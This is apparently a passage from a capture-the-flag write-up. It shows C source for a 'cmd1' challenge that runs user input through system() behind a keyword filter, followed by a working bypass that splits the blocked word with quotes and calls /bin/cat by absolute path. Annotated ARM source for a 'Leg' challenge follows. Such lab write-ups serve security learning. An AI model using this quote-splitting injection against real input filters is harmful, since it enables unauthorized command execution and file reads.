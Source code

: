 ```c
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/thankyouverymuch"); // Stomps on PATH :(
	if(filter(argv[1])) return 0; // End execution if filter() > 1
	system( argv[1] ); // Execute $1
	return 0;
}
```
 
We can't rely on path, so we have to specify exact path to executables. In this case we want /bin/cat.
We can't use "flag" directly, because it will cause our filter() function to return >1. 
We can use lots of quotes to bypass the filter. Such as: ```"f""l""a""g"```.

```bash
$ ./cmd1 "/bin/cat \"f\"\"l\"\"a\"\"g\""
mommy now I get what PATH environment is for :)
```

### Leg
```c
// leg.c
#include <stdio.h>
#include <fcntl.h>
int key1(){
    // Load pc (program counter) into register 3.
	asm("mov r3, pc\n"); 
}
int key2(){
	asm(
	"push	{r6}\n" // Push register 6 onto stack.
	"add	r6, pc, $1\n" // Add pc to r6
	"bx	r6\n" // Uhh???
	".code   16\n"
	"mov	r3, pc\n"
	"add	r3, $0x4\n"
	"push	{r3}\n"
	"pop	{pc}\n"
	".code	32\n"
	"pop	{r6}\n"
	);
}
int key3(){
	asm("mov r3, lr\n");
}
int main(){
	int key=0;
	printf("Daddy has very strong arm! : ");
	scanf("%d", &key); // Move stdin into key (as int).
	// If all three key functions added together equal key, print flag.
	if( (key1()+key2()+key3()) == key ){ 
		printf("Congratz!\n");
		int fd = open("flag", O_RDONLY);
		char buf[100];
		int r = read(fd, buf, 100);
		write(0, buf, r);
	}
	else{
	    // Otherwise print this.
		printf("I have strong leg :P\n");
	}
	return 0;
}
```

